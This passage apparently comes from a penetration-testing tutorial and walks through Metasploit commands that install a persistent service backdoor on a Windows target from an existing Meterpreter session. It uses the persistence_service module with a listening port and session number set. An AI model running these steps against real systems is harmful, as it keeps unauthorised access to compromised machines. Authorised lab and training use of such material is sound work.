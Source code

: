 - **Explanation**: `sysinfo` provides information about the target system, and `getuid` displays the user context under which the Meterpreter session is running. If we see that we have Administrator privileges, we can proceed to establish persistence.

---

#### 4. Establishing Persistence

First, background the current Meterpreter session to allow for new commands:

```bash
background
```

Now, search for persistence methods:

```bash
search persistence_service
```

Use the persistence service exploit:

```bash
use exploit/windows/local/persistence_service
```

- **Explanation**: This module generates and uploads an executable to the target system, creating a persistent service that starts the payload whenever the service runs. Administrative privileges are required for this operation.

Set the listening port to avoid conflicts with the current session:

```bash
set lport 4433
```

Specify the session to use:

```bash
set session 1
```

Run the persistence service:

```bash
run
```

- **Explanation**: This command executes the persistence module, establishing a service that will maintain our access.

Verify the current user context again:

```bash
getuid
```

After confirming that the persistence has been established, we can exit the Meterpreter session:

```bash
exit
```

---